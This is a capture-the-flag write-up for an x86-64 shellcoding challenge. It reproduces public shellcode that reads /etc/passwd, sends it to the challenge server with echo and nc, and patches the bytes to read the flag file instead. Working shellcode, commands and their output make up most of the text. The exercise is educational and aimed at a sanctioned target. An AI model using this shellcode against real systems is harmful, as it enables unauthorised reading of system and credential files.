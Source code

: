 # Shellcoding/shellcoding 0x01

### Challenge

- Category: Shellcoding
- Author: nordbo
- Description: The idea of these challenges is to write x86-64 shellcode to obtain the flag which is located in /opt/flag. As you progress, the challenges gets harder. The source code and an example pwntools template to communicate with the server is provided. pwn.college has a great introduction to assembly and shellcoding Good luck!
- Service: `nc io.ept.gg 30011`
- Downloads
  - example.py
  - sc01
  - sc01.c

### Writeup by
- hag

---

## `nc io.ept.gg 30011`

```BASH
$ nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
>
```

## Read File Shellcode

I found the following shellcode through Google: http://shell-storm.org/shellcode/files/shellcode-878.php.

```s
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
  
Shellcode:

\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

## Testing Shellcode

The shellcode reads and outputs `/etc/passwd`, which is not exactly what we want, but let's try the shellcode anyway:

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf/:/bin/bash
```


## Modifying Shellcode

But we need flags, not users! 🚩😎 We could modify the assembler listing and reassemble, but that sounds like a lot of work. Luckily the compiled shellcode is included at the bottom. Let's just hack at the raw bytes.

### Read `/etc/passwd` shellcode

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

Let's change the filename first.

```bash
$ echo -n "/etc/passwd" | hexdump -C
00000000  2f 65 74 63 2f 70 61 73  73 77 64                 |/etc/passwd|
```

`/etc/passwd` is `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64` in hex. It's also `11 (\x0b)` characters long.

We need to change the filename to `/opt/flag`.

```bash
$ echo -n "/opt/flag" | hexdump -C
00000000  2f 6f 70 74 2f 66 6c 61  67                       |/opt/flag|
```

`/opt/flag` is `\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67` in hex and is `9 (0x09)` characters long.

We can find the relevant parts in the original shellcode:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

The new shellcode becomes:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
```

Diff:

![](01.png "")


## Exploit & 🚩

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> EPT{welcome_t0_sh3llc0ding!}
```
